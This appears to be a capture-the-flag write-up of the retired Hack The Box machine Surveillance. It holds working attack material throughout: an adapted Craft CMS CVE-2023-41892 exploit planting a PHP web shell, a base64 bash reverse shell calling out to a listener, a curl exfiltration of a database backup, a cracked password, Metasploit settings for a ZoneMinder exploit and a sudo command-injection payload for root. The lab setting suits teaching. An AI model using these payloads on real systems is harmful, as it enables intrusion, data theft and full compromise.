



# Hack The Box - Surveillance

Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Surveillance**. This machine begins with a Craft CMS website that is vulnerable to a publicly known exploit, which gives me initial access as `www-data`. From there I recover a backup archive, crack a password hash to move to `matthew`, then pivot to a local ZoneMinder instance and abuse a sudo misconfiguration to execute commands as root and grab the final flag.

## Recon

I started with a full port scan to see what services were available on the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.245
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

The web server redirected to `surveillance.htb`, so I added that to my hosts file and started looking at the site.

### Execution

Browsing to the target, I found a simple web page with a Craft CMS backend exposed in the response headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 11 Dec 2023 19:09:13 GMT
Content-Type: text/html; charset=UTF-8
connection: close
X-Powered-By: Craft CMS
Content-Length: 16230
```



That immediately made me think of [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892) POC https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce . The exploit I found did not work as-is because it tried to write into the document root, so I adjusted it to write into `cpresources`, which is a commonly reachable directory for application assets.

### Exploit Adjustments

```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})
```

After a short wait, the payload landed and I obtained code execution. That led to a shell as `www-data`.

The shell was a bit unstable, so I switched to a cleaner bash reverse shell. First I base64-encoded the payload to avoid quoting issues.

```bash
echo -n '/bin/bash -l > /dev/tcp/10.10.14.242/443 0<&1 2>&1' | base64
```

That produced:

```text
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE=
```

I then used the encoded string to spawn the shell:

```bash
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash
```

Before running it, I started a listener:

```bash
nc -lvp 443
```

## Lateral Movement

Once I had a foothold as `www-data`, I upgraded the shell to make it easier to work with.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

While exploring the filesystem, I found an interesting backup archive in `/var/www/html/craft/storage/backups`:

```text
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

I uploaded it to my machine using a simple Python server.

```bash
python3 -m uploadserver 80
```

Then I transferred the file:

```bash
curl -X POST http://10.10.14.242/upload -F files=@surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

After downloading it, I extracted the archive:

```bash
unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Inside the SQL dump, I found a password hash for the `Matthew` user.

```sql
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

I cracked the hash with hashcat:

```bash
hashcat -m 1400 -O -a 0 -w 4 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

Then I checked the recovered password:

```bash
cat cracked.txt
```

```text
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

That gave me Matthew’s password, `starcraft122490`, and I used it to log in with SSH.

```bash
ssh matthew@surveillance.htb
```

## Privilege Escalation

### ZoneMinder Pivot

After logging in as `matthew`, I noticed a `zoneminder` user directory on the system. That was a useful clue because ZoneMinder is a surveillance application with a history of serious vulnerabilities.

Since port 80 was already occupied by Craft CMS, I checked the active listeners on the box.

```bash
netstat -tunlp
```

That revealed a service listening locally on port `8080`. I verified it with curl:

```bash
curl http://127.0.0.1:8080
```

The output confirmed it was ZoneMinder. To access it from my host, I created an SSH tunnel:

```bash
ssh -L 4000:127.0.0.1:8080 matthew@surveillance.htb
```




I then browsed to `http://127.0.0.1:4000` and got the ZoneMinder login page.

The most interesting exploit I found was [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035), which allows unauthenticated RCE through the snapshots feature. A Metasploit module exists for it:

```text
unix/webapp/zoneminder_snapshots
```

I configured it like this:

```text
set rhosts 127.0.0.1
set rport 4000
set targeturi /
set lhost tun0
```

Then I launched the exploit:

```text
exploit
```

A moment later, I got a meterpreter shell as the `zoneminder` user.

### Root Escalation

With a shell on `zoneminder`, I checked sudo permissions next.

```bash
sudo -l
```

The output showed that `zoneminder` could run scripts matching `zm*.pl` in `/usr/bin` as root.

I listed the available scripts:

```bash
ls -hal /usr/bin/zm*.pl
```

There were multiple matches, so I reviewed them and focused on `zmupdate.pl`. That script built a shell command by directly appending user input, which made it vulnerable to command injection.

### Vulnerable Code

```perl
sub patchDB {
  my $dbh = shift;
  my $version = shift;

  my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ ) if $Config{ZM_DB_HOST};
  my $command = 'mysql';
  if ($super) {
    $command .= ' --defaults-file=/etc/mysql/debian.cnf';
  } elsif ($dbUser) {
    $command .= ' -u'.$dbUser;
    $command .= ' -p\''.$dbPass.'\'' if $dbPass;
  }
  if ( defined($portOrSocket) ) {
    if ( $portOrSocket =~ /^\// ) {
      $command .= ' -S'.$portOrSocket;
    } else {
      $command .= ' -h'.$host.' -P'.$portOrSocket;
    }
  } elsif ( $host ) {
    $command .= ' -h'.$host;
  }
  $command .= ' '.$Config{ZM_DB_NAME}.' < ';
  if ( $updateDir ) {
    $command .= $updateDir;
  } else {
    $command .= $Config{ZM_PATH_DATA}.'/db';
  }
  $command .= '/zm_update-'.$version.'.sql';

  print("Executing '$command'\n") if logDebugging();
  ($command) = $command =~ /(.*)/; # detaint
  my $output = qx($command);
  my $status = $? >> 8;
  if ( $status || logDebugging() ) {
    chomp($output);
    print("Output: $output\n");
  }
  if ( $status ) {
    die("Command '$command' exited with status: $status\n");
  }
  print("\nDatabase successfully upgraded to version $version.\n");
} # end sub patchDB
```

Since the input was concatenated straight into a shell command, I reused my earlier base64-encoded reverse shell and injected it through the `--user` parameter. I broke out of the intended command with `;`, inserted the payload, and then terminated it cleanly.

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user=" 'user';  echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash;" --pass=Newpassword
```

After answering the prompts, I received a reverse shell as root and finished the box.

## Attack Path

- **Scan the host** — identify SSH and HTTP services.
- **Inspect the site** — discover the Craft CMS header.
- **Exploit Craft CMS** — adapt the public CVE-2023-41892 exploit to write into `cpresources`.
- **Get a foothold** — obtain a shell as `www-data`.
- **Stabilize the shell** — upgrade to a cleaner bash session.
- **Find the backup** — locate the SQL zip file in Craft storage.
- **Extract credentials** — crack Matthew’s hash from the database dump.
- **Move to Matthew** — log in with SSH using the recovered password.
- **Discover ZoneMinder** — find the local service on port 8080.
- **Tunnel access** — forward the service to the local machine over SSH.
- **Exploit ZoneMinder** — use CVE-2023-26035 to get a shell as `zoneminder`.
- **Check sudo rights** — identify permission to run `zm*.pl` scripts as root.
- **Abuse zmupdate.pl** — inject a command through the `--user` argument.
- **Escalate to root** — trigger the payload and capture the final flag.
